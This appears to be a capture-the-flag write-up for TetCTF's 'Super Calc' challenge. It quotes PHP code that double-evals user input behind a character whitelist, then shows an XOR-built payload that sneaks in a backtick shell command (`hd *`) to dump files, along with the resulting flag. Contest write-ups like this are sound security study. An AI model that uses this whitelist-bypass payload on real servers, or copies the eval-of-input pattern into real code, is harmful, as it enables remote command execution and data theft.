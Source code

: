 # Super Calc
> Let try on the next-generation, the superior Calculator that support many operations, made with love <3

Relevant code:
```php
$wl = preg_match('/^[0-9\+\-\*\/\(\)\'\.\~\^\|\&]+$/i', $_GET["calc"]);
if($wl === 0 || strlen($_GET["calc"]) > 70) die(...);
eval("echo ".eval("return ".$_GET["calc"].";").";");
```

Visiting the URL without a query parameter gives us the source of the challenge. Our code is double eval'd and the result printed. Our input can be up to 70 characters and can only use characters in the set `0123456789+-*/().~|&^`. We can create arbitrary characters by xoring strings and join them using `.`.

We don't have a lot of space, but it's plenty to encode backticks (shell command) and a two letter command that reads files like `hd` then a wildcard `*`.

```
`hd *`
('0'^'.'^'~').('6'^'^').('0'^'*'^'~').('~'^'^').'*'.('0'^'.'^'~')
Length: 65

TetCTF{_D0_Y0u_Know_H0w_T0_C4lculat3_1337?_viettel_*100*817632506233949#}
```
